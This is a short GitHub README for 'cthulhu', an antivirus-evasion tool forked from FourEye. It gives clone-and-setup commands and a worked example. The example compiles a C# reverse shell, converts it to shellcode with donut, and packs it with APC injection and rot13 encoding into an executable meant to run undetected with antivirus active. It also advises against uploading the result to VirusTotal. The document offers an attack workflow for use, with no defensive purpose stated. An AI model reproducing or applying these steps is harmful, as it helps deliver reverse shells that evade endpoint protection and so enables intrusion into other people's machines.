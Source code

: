 # cthulhu

AV Evasion, a FourEye fork

# Install

git clone https://github.com/foxlox/cthulhu

cd cthulhu

chmod 755 setup.sh

./setup.sh

python3 cthulu.py
    
    
![immagine](https://user-images.githubusercontent.com/28823598/128512455-1bad09e2-9616-4333-ad37-db895705ff02.png)
  
    
![immagine](https://user-images.githubusercontent.com/28823598/128512283-4e75f989-f5fd-4e54-b954-7741fc231add.png)


# Example

Create a new Visual Studio C# Console Project
Add reverse.cs and set IP and PORT
Build it
go to Linux box

$ donut compiledapp.exe -o ca.bin

$ python3 cthulhu.py -method apc -arch x86 -bin ca.bin -enc rot13
[+]shellcode created: /tmp/shellcode.exe

Copy shellcode.exe on Windows box and run it. Don't remember to start your Antivirus.

Don't upload your shellcode.exe on Virustotal

    *fox
    
